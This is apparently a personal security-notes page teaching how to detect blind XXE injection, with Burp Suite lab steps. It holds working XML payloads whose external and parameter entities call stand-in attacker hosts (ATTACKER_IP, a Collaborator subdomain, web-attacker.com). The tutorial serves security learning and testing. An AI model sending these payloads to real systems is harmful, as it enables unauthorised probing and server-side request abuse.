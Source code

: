 Detecting blind XXE can be done by using the same technique as [XXE to SSRF attacks](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FVulnerabilities%20%26%20Attacks%2FXXE%20Injection%2FCommon%20XXE%20Attacks%2FChained%20XXE%20to%20SSRF), but triggering the out-of-band network interaction to a system that an attacker control. For example, an attacker can define an external entity as follows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://ATTACKER_IP:ATTACKER_PORT/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
This attack will cause the server to make HTTP request to the specified URL which the attacker can monitor for the resulting DNS lookup and HTTP request, and thereby confirming a successful blind XXE.

1. In Burp Proxy, intercept the request and modify the XML in the request body with the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
2. Right click and select **Insert Collaborator payload**  to insert a Burp Collaborator subdomain where indicated.
3. Go to the Collaborator tab, and click **Poll now**. If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
> Note: If Burp Collaborator is not available, we can use [CanaryTokens](https://canarytokens.org/generate#) and [interactsh](https://github.com/projectdiscovery/interactsh) as alternatives.
## Out-of-band Interaction via XML Parameter Entities
Sometimes, XXE attacks using regular entities are blocked due to input validation by the application or some hardening of the XML parser that is being used. In this situation, an attacker might use XML parameter entities instead, which are a special kind of XML entity which can only be reference within the DTD.

For this technique, an attacker only need to know two things:
1. The declaration of an XML parameter entity includes the percent character before the entity name: `<!ENTITY % myparameterentity "my parameter entity value" >`
2. Parameter entities are referenced using the **percent character (%)** instead of the usual ampersand (&): `%myparameterentity;`

This means, an attacker can test for blind XXE with the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
<stockCheck><productId>299</productId></stockCheck>
```